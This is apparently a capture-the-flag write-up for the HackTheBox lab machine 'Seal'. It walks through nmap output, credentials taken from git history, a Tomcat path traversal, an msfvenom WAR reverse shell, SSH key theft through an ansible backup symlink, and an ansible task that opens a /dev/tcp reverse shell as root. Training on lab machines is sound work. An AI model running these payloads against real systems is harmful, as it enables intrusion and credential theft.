

# Seal

```
# Nmap 7.92 scan initiated Fri Aug 27 11:40:54 2021 as: nmap -vvv -p 22,443,8080 -sCV -oA init 10.10.10.250
Nmap scan report for 10.10.10.250
Host is up, received conn-refused (0.050s latency).
Scanned at 2021-08-27 11:40:54 +07 for 18s

PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC1FohcrXkoPYUOtmzAh5PlCU2H0+sFcGl6XXS6vX2lLJ3RD2Vd+KlcYtc2wQLjcYJhkFe793jmkogOSh0uI+fKQA9z1Ib3J0vtsIaNkXxvSMPcr54QxXgg1guaM1OQl43ePUADXnB6WqAg8QyF6Nxoa18vboOAu3a8Wn9Qf9iCpoU93d5zQj+FsBKVaDs3zuJkUBRfjsqq7rEMpxqCfkFIeUrJF9MBsQhgsEVUbo1zicWG32m49PgDbKr9yE3lPsV9K4b9ugNQ3zwWW5a1OpOs+r3AxFcu2q65N2znV3/p41ul9+fWXo9pm0jJPJ3V5gZphDkXVZEw16K2hcgQcQJUH7luaVTRpzqDxXaiK/8wChtMXEUjFQKL6snEskkRxCg+uLO6HjI19dJ7sTBUkjdMK58TM5RmK8EO1VvbCAAdlMs8G064pSFKxY/iQjp7VWuaqBUetpplESpIe6Bz+tOyTJ8ZyhkJimFG80iHoKWYI2TOa5FdlXod1NvTIkCLD2U=
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD+SiHX7ZTaXWFgBUKSVlFmMYtqF7Ihjfdc51aEdxFdB3xnRWVYSJd2JhOX1k/9V62eZMhR/4Lc8pJWQJHdSA/c=
|   256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXLlJgua8pjAw5NcWgGDwXoASfUOqUlpeQxd66seKyT
443/tcp  open  ssl/http   syn-ack nginx 1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK/localityName=Hackney/organizationalUnitName=Infra/emailAddress=admin@seal.htb
| Issuer: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK/localityName=hackney/organizationalUnitName=Infra/emailAddress=admin@seal.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-05-05T10:24:03
| Not valid after:  2022-05-05T10:24:03
| MD5:   9c4f 991a bb97 192c df5a c513 057d 4d21
| SHA-1: 0de4 6873 0ab7 3f90 c317 0f7b 872f 155b 305e 54ef
| -----BEGIN CERTIFICATE-----
| MIIDiDCCAnACAWQwDQYJKoZIhvcNAQELBQAwgYkxCzAJBgNVBAYTAlVLMQ8wDQYD
| VQQIDAZMb25kb24xEDAOBgNVBAcMB2hhY2tuZXkxFTATBgNVBAoMDFNlYWwgUHZ0
| IEx0ZDEOMAwGA1UECwwFSW5mcmExETAPBgNVBAMMCHNlYWwuaHRiMR0wGwYJKoZI
| hvcNAQkBFg5hZG1pbkBzZWFsLmh0YjAeFw0yMTA1MDUxMDI0MDNaFw0yMjA1MDUx
| MDI0MDNaMIGJMQswCQYDVQQGEwJVSzEPMA0GA1UECAwGTG9uZG9uMRAwDgYDVQQH
| DAdIYWNrbmV5MRUwEwYDVQQKDAxTZWFsIFB2dCBMdGQxDjAMBgNVBAsMBUluZnJh
| MREwDwYDVQQDDAhzZWFsLmh0YjEdMBsGCSqGSIb3DQEJARYOYWRtaW5Ac2VhbC5o
| dGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDafbynnscdjWeuXTrD
| M36rTJ0y2pJpDDFe9ngryz/xw1KsoPfEDrDE0XHc8LVlD9cxXd/8+0feeV34d63s
| YyZ0t5tHlAKw1h9TEa/og1yR1MyxZRf+K/wcX+OwXYFtMHkXCZFH7TPXLKtCrMJM
| Z6GCt3f1ccrI10D+/dMo7eyQJsat/1e+6PgrTWRxImcjOCDOZ1+mlfSkvmr5TUBW
| SU3uil2Qo5Kj9YLCPisjKpVuyhHU6zZ5KuBXkudaPS0LuWQW1LTMyJzlRfoIi9J7
| E2uUQglrTKKyd3g4BhWUABbwyxoj2WBbgvVIdCGmg6l8JPRZXwdLaPZ/FbHEQ47n
| YpmtAgMBAAEwDQYJKoZIhvcNAQELBQADggEBAJZGFznhRSEa2DTgevXl1T8uxpiG
| PPd9R0whiIv3s225ir9SWW3Hl1tVkEY75G4PJA/DxmBIHxIK1OU8kZMuJUevnSIC
| rK16b9Y5Y1JEnaQwfKCoQILMU40ED76ZIJigGqAoniGCim/mwR1F1r1g63oUttDT
| aGLrpvN6XVkqSszpxTMMHk3SqwNaKzsaPKWPGuEbj9GGntRo1ysqZfBttgUMFIzl
| 7un7bBMIn+SPFosNGBmXIU9eyR7zG+TmpGYvTgsw0ZJqZL9yQIcszJQZPV3HuLJ8
| 8srMeWYlzSS1SOWrohny4ov8jpMjWkbdnDNGRMXIUpapho1R82hyP7WEfwc=
|_-----END CERTIFICATE-----
| tls-nextprotoneg:
|_  http/1.1
|_http-title: Seal Market
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
8080/tcp open  http-proxy syn-ack
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| fingerprint-strings:
[snip]
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[snip]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 27 11:41:12 2021 -- 1 IP address (1 host up) scanned in 18.13 seconds
```

On port 443 we have a generic web page, and on port 8080 we have GitBucket. We'll first create an account and log into GitBucket. The repository "seal_market" looks like the source code for the website on port 443. Looking at git logs (I use `tig`), we find credentials in a previous commit.



With these credentials, we're able to log into the tomcat admin panel at `https://seal.htb/manager/status`. On the status page is information about the Tomcat version being used.


Knowing we're working with Tomcat version 9.0.31, we look up vulnerabilities affecting this version. I was able to find a [path traversal vulnerability](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) which allows us to access the page `/manager/html` which would otherwise return a 403 Forbidden when accessed normally. Instead of `/manager/html`, we navigate to `/manager/status/..;/html`. On this page, we're able to upload applications so we'll upload a reverse shell which we generate using `msfvenom`.

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATK_IP LPORT=ATK_PORT -f war -o shell.war
```

We then upload our reverse shell.


However, we get a 403 Forbidden error. This is because in the process of uploading, we make a POST request to `/manager/html/upload` which is blocked, similar to when we tried to GET the page `/manager/html`. To bypass this, we again use our path traversal vulnerability by intercepting and editing the path in Burp to be `/manager/status/..;/html/upload`. With that done, our reverse shell should be uploaded and we can deploy it. We then set up a listener and navigate to `https://seal.htb/shell/` (or whatever you named or shell) to get a reverse shell on the box as "tomcat".

Looking at running processes ...

```sh
$ ps aux
root       66176  0.0  0.0   2608   540 ?        Ss   08:17   0:00 /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
[snip]
```

... we see a program being run as luis by root every 30 seconds.

```sh
$ ls -l /usr/bin/ansible-playbook
lrwxrwxrwx 1 root root 7 Mar 16  2020 /usr/bin/ansible-playbook -> ansible

$ ls -l /opt/backups/playbook/run.yml
-rw-rw-r-- 1 luis luis 403 May  7 07:14 /opt/backups/playbook/run.yml

$ cat /opt/backups/playbook/run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

Here, ansible is doing 3 things:

1. [synchronize](https://docs.ansible.com/ansible/2.3/synchronize_module.html): using `rsync` to replicate/sync `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` in `/opt/backups/files`, links included
2. [archive](https://docs.ansible.com/ansible/2.3/archive_module.html): archiving the previously replicated files into an archive in `/opt/backups/archives/`
3. Clean: delete stuff in `/opt/backups/files/`

This means we can use the playbook to get an archived copy of luis' files by adding symlinks somewhere in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard`. Checking said directory, we only seem to have write access in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`.

```sh
$ ls -l /var/lib/tomcat9/webapps/ROOT/admin/dashboard
total 92
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7 09:26 uploads
```

With that said, let's try stealing luis' SSH key.

1. `ln -sf /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`
2. Exfiltrate the created archive (or just the key) and get the SSH key
3. SSH in with the key

With this, we should have an SSH shell as luis.

Checking `sudo` privileges

```sh
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

We can run ansible playbooks as root without a password. We take a look at ansible's [documentation on `command`](https://docs.ansible.com/ansible/2.3/command_module.html) to see how to execute system commands. We create the following yaml file to get a shell as root

```yaml
- hosts: localhost
  tasks:
    - name: root
      command: bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/1337 <&1'
```

Set up a listener, run `sudo /usr/bin/ansible-playbook *` and we should have a root shell.
